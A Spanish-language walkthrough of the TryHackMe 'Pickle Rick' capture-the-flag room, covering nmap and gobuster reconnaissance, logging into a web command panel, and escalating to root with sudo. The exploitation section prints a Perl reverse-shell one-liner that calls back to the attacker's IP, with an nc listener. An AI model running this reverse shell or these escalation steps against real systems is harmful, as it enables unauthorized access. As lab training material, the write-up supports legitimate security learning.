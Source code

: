 ```yaml
---
description: '✍️ Autor: tryhackme, ar33zy, arebel 🔍 Dificultad: Fácil'
---
```


# Pickle Rick

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.146.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.146.1626
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.146.162
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 220800.png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente hay algo relevante como un usuario.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 220926.png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:&#x20;

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.146.162
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Encontramos una página de login y un robots.txt interesantes.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con el usuario y contraseña descubierta anteriormente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222026.png" alt=""><figcaption></figcaption></figure>

Es un panel de comandos por lo que listamos y vemos el contenido.

<div><figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222225.png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222253.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

Como podemos ejecutar comandos para obtener una Reverse Shell.

<pre><code><strong>nc -nlvp 4444
</strong><strong>perl -e 'use Socket;$i="10.8.146.101";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&#x26;S");open(STDOUT,">&#x26;S");open(STDERR,">&#x26;S");exec("sh -i");};'
</strong></code></pre>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222859.png" alt=""><figcaption></figcaption></figure>

Comprobamos que tienen todos los permisos por lo que podemos ejecutar como root cualquier comando.

```
sudo ls /root/
sudo cat /root/3rd.txt
```

